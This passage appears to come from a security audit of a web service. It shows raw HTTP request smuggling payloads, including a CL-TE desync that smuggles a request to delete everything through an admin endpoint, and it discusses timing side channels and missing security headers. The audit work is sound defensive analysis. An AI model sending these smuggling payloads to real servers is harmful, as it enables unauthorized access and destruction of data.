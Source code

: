 ##### Attack 2: Multiple Content-Length Headers
```http
POST /service/method HTTP/1.1
Content-Length: 5
Content-Length: 100
Content-Type: application/json

AAAAA{"smuggled": "request"}
```
Result: Different components may read different amounts

##### Attack 3: CL-TE Desync
```http
POST /service/method HTTP/1.1
Content-Length: 5
Transfer-Encoding: chunked

0

POST /admin/delete HTTP/1.1
Content-Length: 20

{"delete": "all"}
```
Result: Second request smuggled through

### 4. Timing Side Channels (MEDIUM)

#### Location
Throughout error handling paths

#### Information Leakage
1. **Compression support detection**
   - Invalid compression: Immediate error
   - Valid compression: Delay for decompression

2. **Message size detection**
   - Size check happens after full body read
   - Timing reveals actual message size

3. **Data characteristics**
   - Decompression time reveals compression ratio
   - Can infer data entropy/patterns

### 5. Missing Security Headers (MEDIUM)

#### Impact
The removal of Starlette means no automatic security headers:

| Header | Purpose | Impact of Missing |
|--------|---------|-------------------|
| X-Content-Type-Options | Prevent MIME sniffing | XSS attacks |
| X-Frame-Options | Prevent clickjacking | UI redress attacks |
| Content-Security-Policy | Control resource loading | XSS, data injection |
| Strict-Transport-Security | Force HTTPS | Man-in-the-middle |
